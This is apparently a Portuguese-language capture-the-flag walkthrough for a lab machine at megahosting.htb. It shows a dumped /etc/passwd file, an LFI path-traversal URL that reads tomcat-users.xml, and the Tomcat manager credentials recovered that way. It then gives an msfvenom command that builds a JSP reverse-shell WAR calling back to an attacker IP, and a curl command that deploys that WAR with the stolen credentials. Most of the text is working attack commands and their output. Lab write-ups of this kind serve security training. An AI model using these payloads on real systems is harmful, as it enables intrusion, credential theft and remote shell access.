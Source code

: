 ```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash 
```

agora consigo ver dentro desses paths que ele deu a dica lá atrás

/var/lib/tomcat9/webapps/ROOT/index.html

/var/lib/tomcat9

/usr/share/doc/tomcat9-common/RUNNING.txt.gz

/etc/tomcat9/tomcat-users.xml.

```bash
http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

Inspecione a págna para ver os atributos de acordo com a documentação do LFI


```bash
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

agora podemos fazer o shell reverso
igual nas outras maquinas

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 <IP> LPORT=4444 -f war > exploit.war
```

Depois fazemos upload do arquivo war

```bash
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://10.10.10.194:8080/manager/text/deploy?path=/exploit.war"
```
